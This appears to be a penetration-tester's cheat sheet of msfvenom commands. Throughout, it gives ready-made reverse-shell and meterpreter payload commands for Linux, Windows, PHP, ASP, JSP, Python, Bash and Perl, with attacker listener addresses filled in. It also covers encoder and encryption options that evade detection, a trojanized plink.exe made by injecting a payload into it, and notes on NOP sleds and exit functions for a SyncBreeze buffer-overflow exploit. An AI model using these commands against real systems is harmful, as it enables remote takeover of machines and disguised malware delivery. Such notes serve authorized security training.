 ### Msfvenom
msfvenom --list encrypt  
msfvenom --list encoders  
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe  

Linux：
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

### Improving the Exploit
```
The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.

If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.

To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:
```

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

### staged vs stageless
```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell (stageless)
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
```
>Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. 
The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.

>Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.

### NOP sled(verified less than 5 nops will reach page fault,as long as >=5, it is fine)
```
As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. 
This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. 
In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.
One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. 
This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. 
Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
```
### inject a payload into an existing PE file
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
